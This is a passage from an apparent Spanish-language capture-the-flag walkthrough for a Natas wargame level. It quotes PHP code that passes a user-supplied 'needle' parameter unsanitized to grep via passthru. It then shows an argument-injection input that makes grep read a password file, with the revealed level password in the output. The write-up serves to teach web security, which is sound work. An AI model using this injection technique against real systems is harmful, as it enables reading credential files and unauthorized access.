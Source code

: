 Si inspeccionamos el HTML, vemos que es similar al del nivel anterior.
Inspeccionamos el código fuente.

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

Ya no podemos utilizar `;` para armar un comando que se ejecute, pero podemos
enviar mas de una argumento para que use el primero como patrón, y el segundo
como archivo a leer.

```bash
$ grep -i '' /etc/natas_pass/natas10 dictionary.txt
/etc/natas_webpass/natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
dictionary.txt:
dictionary.txt:African
dictionary.txt:Africans
dictionary.txt:Allah
dictionary.txt:Allah's
...
```
